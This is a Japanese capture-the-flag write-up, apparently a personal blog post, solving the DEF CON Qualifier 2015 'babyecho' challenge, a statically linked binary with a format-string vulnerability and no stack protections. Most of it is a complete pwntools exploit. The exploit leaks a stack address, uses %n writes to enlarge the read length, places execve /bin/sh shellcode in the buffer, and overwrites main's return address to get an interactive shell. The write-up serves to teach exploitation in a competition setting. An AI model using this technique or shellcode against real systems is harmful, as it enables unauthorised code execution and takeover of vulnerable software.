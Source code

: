 ```yaml
---
layout: post
alias: "/blog/2016/01/08/defcon-qualifier-ctf-2015-babyecho/"
title: "DEF CON Qualifier 2015: babyecho"
date: 2016-01-08T02:18:11+09:00
tags: [ "ctf", "pwn", "writeup", "format-string-attack", "shellcode" ]
---
```


## [Baby's First 1: babyecho](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/babyecho)

>   babyecho\_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232  
>   [Download]()

format文字列攻撃の脆弱性のあるバイナリ。

``` sh
$ ./babyecho
Reading 13 bytes
%p
0xd
Reading 13 bytes
%10d%hhn
zsh: segmentation fault (core dumped)  ./babyecho
```

全て読むにはつらい大きなバイナリであるが、セキュリティ機構はほとんど存在していない。
libcを静的にlinkしているようである。
`%n`を入力すると`_n`が返ってくることなどから分かるが、libcの関数そのものではなく多少手が入れられている。

``` sh
$ ll babyecho
-rwxr-x--x 1 user user 664936 Jan  7 23:50 babyecho
$ ldd babyecho
    not a dynamic executable
$ checksec --file babyecho
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   babyecho
```

中を覗くと、main関数は以下のようなものと考えてよいと分かる。

``` c
int main(void) {
    char buf[1024];
    int flag = 0;
    char *p = buf;
    int len = 13;
    while (flag == 0) {
        assert (len <= 1024);
        printf("Reading %d bytes\n", len);
        fgets(stdin, buf, len);
        printf(buf);
        putchar('\n');
    }
    return 0;
}
```

攻撃の手順は以下のようになる。

-   `p`を表示し`esp`を得る。
-   `len`を書き換え長い文字列を送り込めるようにする。
-   `buf`にshellcodeを載せ、`main`の戻りアドレスをshellcodeへのポインタで書き換え、`flag`を書き換える。

これを実行するコードは以下のようになる。

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
p = remote('localhost', 8022)
# p = process('./babyecho')

# ebp of main
# ret from printf
# buf        # esp
# 0xd        # esp + 0x4, $1
# 0xa        # esp + 0x8, $2
# 0x0        # esp + 0xc, $3
# 0xd        # esp + 0x10, $4, len of buf
# 0xffbd510c # esp + 0x14, $5, ptr to buf
# 0x0        # esp + 0x18, $6, break flag
# buf        # esp + 0x1c, $7
# ret        # esp + 0x42c, ret addr from main

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline('%5$p')
buf = int(p.recvline(keepends=False), 16)
esp = buf - 0x1c

p.recvline_regex('Reading \d+ bytes\n') # 13 bytes
p.sendline(p32(esp + 0x10) + '%99d' + '%7$n')

p.recvline_regex('.*Reading \d+ bytes\n') # 103 bytes
p.sendline(p32(esp + 0x10) + '%999d' + '%7$n')

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
p.recvline_regex('.*Reading \d+ bytes\n') # 1003 bytes

payload = ''
payload += p32(esp + 0x18) # $7
payload += p32(esp + 0x42c) # $8
payload += p32(esp + 0x42c + 1) # $9
payload += p32(esp + 0x42c + 2) # $10
payload += p32(esp + 0x42c + 3) # $11
ptr = esp + 0x1c + len(payload)
payload += shellcode
initial_len = len(payload)
payload += '%7$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[0]) -      initial_len) % 0x100 + 0x100)) + '%8$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[1]) - ord(p32(ptr)[0])) % 0x100 + 0x100)) + '%9$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[2]) - ord(p32(ptr)[1])) % 0x100 + 0x100)) + '%10$hhn'
payload += ('%%%dd' % ((ord(p32(ptr)[3]) - ord(p32(ptr)[2])) % 0x100 + 0x100)) + '%11$hhn'
p.sendline(payload)

p.sendline('ls')
p.interactive()
```
